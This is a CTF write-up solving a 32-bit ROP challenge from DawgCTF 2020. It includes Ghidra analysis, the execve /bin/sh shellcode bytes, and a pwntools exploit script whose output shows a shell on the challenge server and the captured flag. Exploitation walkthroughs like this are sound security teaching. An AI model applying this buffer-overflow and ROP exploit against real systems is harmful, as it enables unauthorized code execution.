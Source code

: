 # DawgCTF 2020

## Where we roppin boys?

> 350
>
> Forknife is still a thing right?
>
> `nc ctf.umbccd.io 4100`
> 
>Author: trashcanna
>
> [rop](rop)

Tags: _pwn_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### Decompile with Ghidra

There are three primary functions of interest: `welcome`, `tryme`, and `win`.

Main starts with `welcome`:

![](welcome.png)

Well, there's an invitation: `shellcode`. `shellcode` is a pointer to a region of memory allocated by `mmap` that is `0x1c` (28) bytes in length and setup for R/W access only (the `3` is `PROT_READ|PROT_WRITE`, IOW `1|2`).  The rest of the `mmap` parameters are less interesting.

![](tryme.png)

There's a buffer overflow vulnerability at line 9.  `fgets` will read 24 (`0x19 - 1`) characters filling up `local_10`, then the pushed `ebx` (standard for x86 32-bit), then the saved base pointer, then finally the return address, with 4 bytes to spare for a 2nd return address, IOW ROP (the binary is called `rop` after all).

![](win.png)

`win` starts off by setting the memory `shellcode` points to, to allow execution (`PROT_EXEC` (4)), then executes it.  Now shellcode is an option (only in this region of memory).

Clearly we want to call `win` with some shellcode.

_But wait!  There's more._

There are 7 other, nearly identical functions that look similar to:

![](tilted_towers.png)

This function sets `iVar4` to the address (`0x8049385`) of the instruction after the call to `__x86.get_pc_thunk.ax()`:

```
08049380 e8 b0 03 00 00       CALL       __x86.get_pc_thunk.ax
08049385 05 7b 2c 00 00       ADD        EAX,0x2c7b
```

`iVar4` (`0x8049385`) + `0x2cb3` is then compared with `0x17` (23), and if greater-than, then the function just returns.

Checking `0x8049385` + `0x2cb3` or `0x804c038` with Ghidra reveals a 4-byte global labeled as `len`:

```
                     len
0804c038                 undefined4 ??
```

If `len` is not greater-than `0x17` (23), then `shellcode[len++] = 0x31`, `shellcode[len++] = 0xc0`, and so on.

There are a total of 7 of these functions that populate the memory pointed to by `shellcode`:

```
dusty_depot:   0x0b 0xcd 0x80 0x31
greasy_grove:  0x6e 0x89 0xe3 0x89
junk_junction: 0x2f 0x2f 0x73 0x68
lonely_lodge:  0xc1 0x89 0xc2 0xb0
loot_lake:     0xc0 0x40 0xcd 0x80
tilted_towers: 0x31 0xc0 0x50 0x68
snobby_shores: 0x68 0x2f 0x62 0x69
```

Calling any of these will just `shellcode[len++] = byte` for each of the four hardcode bytes in the function.

These bytes are shellcode, but what is not obvious is the order in which each function needs to be called to generate useable shellcode, and which ones are required, and if some are called more than once.

> After the 6th call to one of these functions `len` will be 24.

I'm not a shellcode expert to I looked some up and found this: [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php):

```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		          "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

This is not an exact match with the options presented, but good enough to muddle through.  You can do this yourself as well.  Based on my obversations I went with the following order:

```
'tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot'
```

`loot_lake` was not required.

`tryme` above only has room for 2, so repeated calls to `tryme` will be required.
 

### Exploit

```
from pwn import *

binary = ELF('rop')

p = process('./rop')
#p = remote('ctf.umbccd.io', 4100)
p.recvuntil('boys?\n')

rops = ['tilted_towers','junk_junction','snobby_shores','greasy_grove','lonely_lodge','dusty_depot','win']

for i in rops:
	payload  = 8 * b'A'
	payload += p32(binary.symbols['_GLOBAL_OFFSET_TABLE_'])
	payload += 4 * b'B'
	payload += p32(binary.symbols[i])
	payload += p32(binary.symbols['tryme'])
	p.send(payload)

print(p.interactive())
```

When the binary starts you'll end up at the `fgets` in `tryme` waiting for input.

For each function the payload is setup to:

* send 8 `A`s (`local_10`)
* then 4 bytes for the value that will be copied back into `ebx` before the function `leave`s and `ret`urns (this is required for ASLR/PIE enabled binaries, however, for this exploit any value will do, but it's good to be in the habit of setting `ebx` to the address of the GOT before end of function (also required is the base process address if PIE enabled))
* then 4 bytes to overwrite the saved based pointer
* then the function (`rops`) to call overwriting the return address
* then the function (`tryme`) to call overwriting the previous function return address.

It is critical to use `p.send()` vs. `p.sendline()` since `fgets` is setup to only read 24 characters.  `p.sendline()` will send a 25th char (`\n`), that will be picked up on the next call to `tryme` and will spoil your attack.


#### Output

After getting a remote shell, get the flag (while you're there, poke around a bit as well :-):

```
root@bf0bd4081cb8:/pwd/datajerk/dawgctf2020/roppin-boys# ./exploit.py
[*] '/pwd/datajerk/dawgctf2020/roppin-boys/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to ctf.umbccd.io on port 4100: Done
[*] Switching to interactive mode
sh: 0: can't access tty; job control turned off
$ id
uid=1000(challuser) gid=1000(challuser) groups=1000(challuser)
$ ls
flag.txt  rop
$ ls -l
total 20
-r--r----- 1 root challuser    22 Mar 26 14:34 flag.txt
-rwxr-xr-x 1 root challuser 15868 Mar 26 14:34 rop
$ cat flag.txt
DawgCTF{f0rtni9ht_xD}
```

#### Flag

```
DawgCTF{f0rtni9ht_xD}
```
